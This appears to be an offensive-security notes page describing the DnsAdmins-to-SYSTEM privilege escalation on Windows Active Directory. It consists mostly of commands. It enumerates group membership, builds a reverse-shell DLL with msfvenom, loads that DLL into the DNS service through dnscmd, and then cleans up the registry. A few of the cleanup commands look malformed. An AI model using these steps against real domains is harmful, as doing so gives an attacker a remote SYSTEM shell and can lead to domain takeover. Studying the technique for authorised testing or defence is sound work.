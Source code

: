 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The user must be part of `DnsAdmins` domain group.


```
C:\> net user %USERNAME% /domain

C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
..[omitted]..
DOMAIN\DnsAdmins                                              Alias            S-1-5-64-10
```

```
C:\> reg.exe query HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll

PS C:\> Get-ItemProperty Registry::HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## 02 - Exploit

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```


```
C:\> dnscmd.exe /config /serverlevelplugindll .\payload.dll

C:\> sc.exe continue dns
```

## 03 - Cleanup

### 3.1 - Command Prompt

```
C:\> reg.exe delete HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll
```

```
C:\> net.exe continue dns

C:\> sc.exe continue dns
```

### 3.2 - Powershell

```
PS C:\> Get-ItemProperty Registry::HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

PS C:\> Restart-Computer -Force dns
```

```
PS C:\> Get-Service -ComputerName <IP> -Name dns | Restart-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Stop-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Start-Service
```

---
## References

### Backlinks

- [[DLL Injection|Malware Development: DLL Injection]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Active Directory/0xA - Internal Reconnaissance/Users/Manual/Living off the Land]]

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation - DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)